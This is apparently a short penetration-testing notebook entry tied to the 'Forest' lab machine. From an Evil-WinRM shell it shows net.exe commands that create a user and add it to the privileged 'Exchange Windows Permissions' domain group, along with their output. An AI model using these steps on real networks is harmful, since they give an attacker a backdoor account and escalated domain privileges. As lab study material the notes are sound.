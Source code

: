 ## User create
If we are able to create a user it is as simple as using the net.exe windows utility:
```powershell
net user shuciran shucir4n /add
```
## Add user to a group
If there is a group in the domain with some privileges, we can add a user to such group (if we have such permissions):
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" shuciran /add
The command completed successfully.
```
If all goes as planned we'll get this output:
```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user shuciran
User name                    shuciran
...
Local Group Memberships
Global Group memberships     *Exchange Windows Perm*Domain Users
```
Examples:
[[Forest#^80fd2e]]